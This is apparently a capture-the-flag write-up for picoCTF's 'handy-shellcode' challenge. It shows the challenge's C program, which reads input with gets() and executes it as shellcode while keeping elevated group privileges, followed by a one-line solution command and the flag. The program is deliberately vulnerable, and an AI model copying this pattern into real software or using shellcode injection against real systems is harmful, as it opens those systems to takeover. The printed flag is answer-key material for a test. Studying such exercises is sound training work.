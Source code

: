 # handy-shellcode

## Description:

> This program executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt?

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];

  puts("Enter your shellcode:");
  vuln(buf);

  puts("Thanks! Executing now...");

  ((void (*)())buf)();


  puts("Finishing Executing Shellcode. Exiting now...");

  return 0;
}

```

## Solution:

Using the shellcode:

```console
root@kali:~# (python exploit.py ; cat) | /problems/handy-shellcode_0/vuln
```

Without cat, the shell will have no input and simply exits.

`picoCTF{h4ndY_d4ndY_sh311c0d3_5843b402}`
